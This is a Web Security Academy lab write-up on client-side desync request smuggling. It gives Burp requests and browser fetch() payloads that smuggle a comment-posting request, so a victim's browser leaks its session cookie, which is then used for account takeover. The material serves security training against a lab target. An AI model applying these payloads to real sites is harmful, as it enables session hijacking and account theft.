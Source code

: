 # Client-side desync

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/browser/client-side-desync/lab-client-side-desync) is vulnerable to client-side desync attacks because the server ignores the `Content-Length` header on requests to some endpoints. This can be exploited to induce a victim's browser to disclose its session cookie. See [Browser-Powered Desync Attacks: A New Frontier in HTTP Request Smuggling: CSD](https://portswigger.net/research/browser-powered-desync-attacks#csd).

## Reproduction and proof of concept

### Identify a vulnerable endpoint

1. Notice that requests to `/` result in a redirect to `/en`.
2. Send the `GET /` request to Burp Repeater.
3. In Burp Repeater, use the tab-specific settings to disable the Update Content-Length option.
4. Convert the request to a `POST` request (right-click and select Change request method).
5. Change the `Content-Length` to 1 or higher, but leave the body empty.
6. Send the request. Observe that the server responds immediately rather than waiting for the body. This suggests that it is ignoring the specified `Content-Length`.

### Confirm the desync vector in Burp

1. Re-enable the Update Content-Length option.
2. Add an arbitrary request smuggling prefix to the body:

```html
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Connection: close
Content-Length: CORRECT

GET /hopefully404 HTTP/1.1
Foo: x
```

3. Add a normal request for `GET /` to the tab group, after your malicious request.
4. Using the drop-down menu next to the Send button, change the send mode to Send group in sequence (single connection).
5. Change the `Connection` header of the first request to `keep-alive`.
6. Send the sequence and check the responses. If the response to the second request matches what you expected from the smuggled prefix (in this case, a 404 response), this confirms that you can cause a desync.

### Replicate the desync vector in your browser

1. Open a separate instance of Chrome that is **not** proxying traffic through Burp.
2. Go to the exploit server.
3. Open the browser developer tools and go to the Network tab.
4. Ensure that the Preserve log option is selected and clear the log of any existing entries.
5. Go to the Console tab and replicate the attack from the previous section using the fetch() API as follows:

```html
fetch('https://lab-id.web-security-academy.net', {
    method: 'POST',
    body: 'GET /hopefully404 HTTP/1.1\r\nFoo: x',
    mode: 'cors',
    credentials: 'include',
}).catch(() => {
        fetch('https://lab-id.web-security-academy.net', {
        mode: 'no-cors',
        credentials: 'include'
    })
})
```

6. Note that we're intentionally triggering a CORS error to prevent the browser from following the redirect, then using the `catch()` method to continue the attack sequence.
7. On the Network tab, you should see two requests:
* The main request, which has triggered a CORS error.
* A request for the home page, which received a 404 response.

This confirms that the desync vector can be triggered from a browser.

### Identify an exploitable gadget

1. Back in Burp's browser, visit one of the blog posts and observe that this lab contains a comment function.
2. From the **Proxy > HTTP history**, find the `GET /en/post?postId=x` request. Make note of the following:
* The `postId` from the query string
* Your session and `_lab_analytics` cookies
* The `csrf` token
3. In Burp Repeater, use the desync vector from the previous section to try to capture your own arbitrary request in a comment. For example:

Request 1:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Connection: keep-alive
Content-Length: CORRECT

POST /en/post/comment HTTP/1.1
Host: lab-id.web-security-academy.net
Cookie: session=YOUR-SESSION-COOKIE; _lab_analytics=YOUR-LAB-COOKIE
Content-Length: NUMBER-OF-BYTES-TO-CAPTURE
Content-Type: x-www-form-urlencoded
Connection: keep-alive

csrf=YOUR-CSRF-TOKEN&postId=YOUR-POST-ID&name=wiener&email=wiener@web-security-academy.net&website=https://ginandjuice.shop&comment=
```

Request 2:

```html
GET /capture-me HTTP/1.1
Host: lab-id.web-security-academy.net
```

Note that the number of bytes that you try to capture must be longer than the body of your `POST /en/post/comment` request prefix, but shorter than the follow-up request.

4. Back in the browser, refresh the blog post and confirm that you have successfully output the start of your `GET /capture-me` request in a comment.

### Replicate the attack in your browser

1. Open a separate instance of Chrome that is not proxying traffic through Burp.
2. Go to the exploit server.
3. Open the browser developer tools and go to the Network tab.
4. Ensure that the Preserve log option is selected and clear the log of any existing entries.
5. Go to the Console tab and replicate the attack from the previous section using the `fetch()` API as follows:

```text
fetch('https://lab-id.web-security-academy.net', {
        method: 'POST',
        body: 'POST /en/post/comment HTTP/1.1\r\nHost: lab-id.web-security-academy.net\r\nCookie: session=YOUR-SESSION-COOKIE; _lab_analytics=YOUR-LAB-COOKIE\r\nContent-Length: NUMBER-OF-BYTES-TO-CAPTURE\r\nContent-Type: x-www-form-urlencoded\r\nConnection: keep-alive\r\n\r\ncsrf=YOUR-CSRF-TOKEN&postId=YOUR-POST-ID&name=wiener&email=wiener@web-security-academy.net&website=https://portswigger.net&comment=',
        mode: 'cors',
        credentials: 'include',
    }).catch(() => {
        fetch('https://lab-id.web-security-academy.net/capture-me', {
        mode: 'no-cors',
        credentials: 'include'
    })
})
```

6. On the Network tab, you should see three requests:
* The initial request, which has triggered a CORS error.
* A request for `/capture-me`, which has been redirected to the post confirmation page.
* A request to load the post confirmation page.
7. Refresh the blog post and confirm that you have successfully output the start of your own `/capture-me` request via a browser-initiated attack.

### Exploit

1. Go to the exploit server.
2. In the Body panel, paste the script that you tested in the previous section.
3. Wrap the entire script in HTML `script` tags.
4. Store the exploit and click **Deliver to victim**.
5. Refresh the blog post and confirm that you have captured the start of the victim user's request.
6. Repeat this attack, adjusting the `Content-Length` of the nested `POST /en/post/comment` request until you have successfully output the victim's session cookie.
7. In Burp Repeater, send a request for `/my-account` using the victim's stolen cookie to solve the lab.

## Exploitability

An attacker will need to identify a client-side desync vector in Burp, then confirm that it can be replicated this in your browser; identify a gadget that enables storing text data within the application; combine these to craft an exploit that causes the victim's browser to issue a series of cross-domain requests that leak their session cookie; and use the stolen cookie to access the victim's account.
